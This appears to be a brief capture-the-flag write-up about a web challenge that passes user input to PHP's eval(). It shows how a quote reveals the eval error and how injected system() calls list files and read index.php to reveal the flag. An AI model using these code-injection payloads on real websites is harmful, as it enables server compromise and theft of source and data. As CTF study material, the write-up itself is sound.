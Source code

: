 * Type ' in the input. You will the error:
```
Parse error: syntax error, unexpected '';' (T_ENCAPSED_AND_WHITESPACE) in /var/www/html/index.php(5) : eval()'d code on line 1
```
* So, looks like they are using eval() in PHP to evaluate the expressions. We can input php code and evaluate that.
* Type `system("ls");`

* Type `system("cat index.php")` and check the page source, you will get the flag.
